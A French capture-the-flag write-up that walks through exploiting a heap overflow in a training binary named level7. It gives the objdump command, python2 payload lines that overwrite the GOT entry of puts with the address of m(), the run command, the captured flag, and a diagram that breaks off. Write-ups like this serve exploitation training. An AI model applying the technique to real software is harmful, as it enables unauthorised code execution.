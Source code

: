 Le code appelle `puts("~~")` en fin de `main`. En réécrivant l'entrée GOT de `puts` pour qu'elle contienne l'adresse de `m()`, cet appel exécutera `m()` et affichera la variable globale `c` (le flag).

On récupère l'adresse de l'entrée GOT de `puts` par :

```bash
objdump -d level7 | grep -A1 '<puts@plt>'
#    jmp   *0x08049928     ← adresse GOT de puts
```

**Adresse GOT de `puts` : `0x08049928`**

### 3.4 Étape 3 : Construction du payload

1. **`argv[1]`** : Overflow de **20 octets** + adresse GOT de `puts` (`0x08049928`) en little-endian.
2. **`argv[2]`** : Adresse de `m` (`0x080484f4`) en little-endian. Cette valeur sera copiée dans GOT[puts] par le second `strcpy`.
3. Lorsque `puts("~~")` est appelé, c'est en réalité `m()` qui s'exécute et affiche la variable `c`.

### 3.5 Commandes complètes

```bash
# Se connecter au niveau
ssh level7@<IP> -p 4242

# Créer les payloads
cd /tmp

# 1) Overflow : écraser puVar3[1] → entrée GOT de puts
echo -ne "$(python2 -c 'print "A"*20 + "\x28\x99\x04\x08"')" > payload1

# 2) Script pour l'adresse de m()
echo -ne "$(python2 -c 'print "\xf4\x84\x04\x08"')" > payload2

# 3) Exécution de l'exploit
./level7 $(cat payload1) $(cat payload2)
```

L'exécution affiche alors le contenu de `c`, c'est-à-dire le flag :

```bash
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│              DOUBLE HEAP OVERFLOW                      │
├─────────────────────────────────────────────────────────┤
│  Payload1[20] + Adresse GOT + Payload2[4]            │
│  │                                                    │
│  └─→ "A"*20 + "\x28\x99\x04\x08" + "\xf4\x84\x04\x08"│
│      │                                                │
│      └─→ strcpy() déborde buffer A → écrasement      │
│          │                                            │
│          └─→ puVar3[1] pointe vers GOT de puts      │
│              │                                        │
│              └─→ strcpy() écrit adresse de m()       │
│                  │                                    │
│                  └─→ GOT[puts] pointe vers m()       │
│                      │                               │
```